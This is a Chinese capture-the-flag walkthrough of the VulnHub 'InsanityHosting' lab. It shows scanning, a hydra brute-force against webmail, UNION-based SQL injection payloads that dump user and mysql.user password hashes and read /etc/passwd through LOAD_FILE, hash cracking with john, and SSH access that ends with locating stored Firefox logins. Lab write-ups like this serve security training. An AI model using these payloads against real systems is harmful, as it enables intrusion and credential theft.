# InsanityHosting

> https://download.vulnhub.com/insanity/Insanity-Hosting.ova

靶场IP：`192.168.2.134`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.134                                                                                                                                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-06 08:23 EDT
Nmap scan report for 192.168.2.134
Host is up (0.00024s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.2.33)
MAC Address: 00:0C:29:C2:09:42 (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 154.26 seconds

```

访问FTP 21端口，可以匿名登陆，不过没有发现有用的东西。



浏览器访问80端口



爆破目录

```
┌──(root💀kali)-[~]
└─# gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://192.168.2.134/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.134/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/06 08:28:58 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 211]
/.htpasswd            (Status: 403) [Size: 211]
/cgi-bin/             (Status: 403) [Size: 210]
/css                  (Status: 301) [Size: 233] [--> http://192.168.2.134/css/]
/data                 (Status: 301) [Size: 234] [--> http://192.168.2.134/data/]
/fonts                (Status: 301) [Size: 235] [--> http://192.168.2.134/fonts/]
/img                  (Status: 301) [Size: 233] [--> http://192.168.2.134/img/]  
/js                   (Status: 301) [Size: 232] [--> http://192.168.2.134/js/]   
/licence              (Status: 200) [Size: 57]                                   
/monitoring           (Status: 301) [Size: 240] [--> http://192.168.2.134/monitoring/]
/news                 (Status: 301) [Size: 234] [--> http://192.168.2.134/news/]      
/phpmyadmin           (Status: 301) [Size: 240] [--> http://192.168.2.134/phpmyadmin/]
/webmail              (Status: 301) [Size: 237] [--> http://192.168.2.134/webmail/]   
                                                                                      
===============================================================
2022/09/06 08:29:01 Finished
===============================================================

```

访问：`/news/`。会访问一个域名，需要配置本地hosts。



重新刷新页面，页面有个用户：`Otis`

> 监控服务 
>
> 我们的团队一直在努力为您的服务器创建免费的监控服务。特别感谢领导团队的 Otis。
>
> 我们很高兴地宣布，从下周开始，您将可以注册我们的监控服务。这将保持免费，无论您是否是客户。 
>
> 如果您有兴趣，请发送电子邮件至 hello@insanityhosting.vm，我们可以为您提供更多详细信息。



查看页面底部，我们看到这似乎也在运行[Bludit CMS](https://www.bludit.com/)。



查看`/data`目录，找到一个版本：`1.14.0`



查看`/webmail`目录



对登录界面进行暴力破解

```
hydra -l otis -P /usr/share/wordlists/rockyou.txt "http-post-form://www.insanityhosting.vm/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."
```

获得登录密码



登录`/webmail`，不过这里没有邮件信息。



访问`/monitoring`，并尝试使用相同的用户名和密码登录。



这是一个监控页面，让我们尝试使用我们的 IP 地址添加一个新主机，看看它是否使用.一段时间后，我们看到本地机器的状态是"UP"。



现在让我们尝试通过将被监控的 IP 地址更改为无效的 IP 地址来禁用监控。这是看是否`otis`真的收到任何监控失败邮件。







我们发现`test"`在名称字段中输入会导致没有电子邮件被发送到`otis`。这表明监控网站可能正在使用基于 SQL 的查询来找出哪些服务器已关闭，并使用该查询向我们发送电子邮件。

因此，考虑到这一假设，我们尝试`test" or 1='1' -- -`在名称字段中。





太棒了，数据库表中的所有内容都会返回给我们，包括成功记录，这意味着我们自己获得了 SQL 注入。

由于我们看到发送给我们的电子邮件中有四列，我们可以尝试使用以下查询获取数据库列表。

```
a" UNION SELECT group_concat(schema_name),2,3,4 FROM information_schema.schemata -- -
```



让我们看看`monitoring`数据库里面有什么。

```
a" UNION SELECT group_concat(table_name),2,3,4 FROM information_schema.tables where table_schema = 'monitoring' -- -
```



这张`users`表看起来很有趣，所以让我们来看看。

```
a" UNION SELECT group_concat(column_name),2,3,4 FROM information_schema.columns where table_name = 'users' -- -
```



```
a" UNION SELECT group_concat(username),group_concat(password),group_concat(email),4 FROM monitoring.users -- -
```



太棒了，我们获得了有资格访问此监控页面的用户的用户名、密码哈希和电子邮件地址。不是那么棒，我们在很长一段时间后都没有设法破解它们。

因此，让我们继续阅读文件。

```
a" UNION SELECT LOAD_FILE('/etc/passwd'),2,3,4 as result -- -
```



仔细看`/etc/passwd`，我们看到我们有四个用户，我们以后可能可以转移到- `admin`、`monitor`和。`elliot``nicholas`

接下来让我们尝试阅读 Bludit 用户文件。

```
a" UNION SELECT LOAD_FILE('/var/www/html/news/bl-content/databases/users.php'),2,3,4 as result -- -
```



尝试破解 Bludit`admin`用户的密码哈希也无济于事，所以让我们尝试从`mysql.user`数据库中获取密码哈希。

```
a" UNION SELECT group_concat(user),group_concat(password),group_concat(authentication_string),4 FROM mysql.user -- -
```



我们在数据库中看到一个`elliot`用户，以及他们在`authentication_string`列下的哈希密码。这可能和`elliot`我们在阅读时看到的一样`/etc/passwd`。让我们尝试破解它。

```
┌──(root💀kali)-[/tmp]
└─# cat hash 
*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp]
└─# john --wordlist:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 128/128 AVX 4x])
No password hashes left to crack (see FAQ)
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp]
└─# john --show hash                                     
?:elliot123

1 password hash cracked, 0 left

```

ssh登录

```
┌──(root💀kali)-[/tmp]
└─# ssh elliot@192.168.2.134                                                                                                                                                                                                           
The authenticity of host '192.168.2.134 (192.168.2.134)' can't be established.
ECDSA key fingerprint is SHA256:vGWrdjBS8NkKS9/tOKtz2EdskG/Td1ggoalsSMMRwLQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.2.134' (ECDSA) to the list of known hosts.
elliot@192.168.2.134's password: 
Last login: Wed Aug 31 10:00:29 1994 from �Y�IWf��3����H2/d`/�%▒�p�R�v�e�ZR
����
    \f]��1*
           ����l#
[elliot@insanityhosting ~]$ id
uid=1003(elliot) gid=1003(elliot) groups=1003(elliot)
[elliot@insanityhosting ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for elliot: 
Sorry, user elliot may not run sudo on insanityhosting.

```

寻找属于elliot用户的文件

```
find / -type f -user elliot 2>/dev/null | grep -v "/proc/" | grep -v "/sys/"
```

发现了firefox的登录信息

```
[elliot@insanityhosting ~]$ cat /home/elliot/.mozilla/firefox/esmhp32w.default-default/logins.json
{"nextId":2,"logins":[{"id":1,"hostname":"https://localhost:10000","httpRealm":null,"formSubmitURL":"https://localhost:10000","usernameField":"user","passwordField":"pass","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECMXc5x8GLVkkBAh48YcssjnBnQ==","encryptedPassword":"MEoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECPPLux2+J9fKBCApSMIepx/VWtv0rQLkpiuLygt0rrPPRRFoOIlJ40XYbg==","guid":"{0b89dfcb-2db3-499c-adf0-9bd7d87ccd26}","encType":1,"timeCreated":1597591517872,"timeLastUsed":1597595253716,"timePasswordChanged":1597595253716,"timesUsed":2}],"version":2}
```

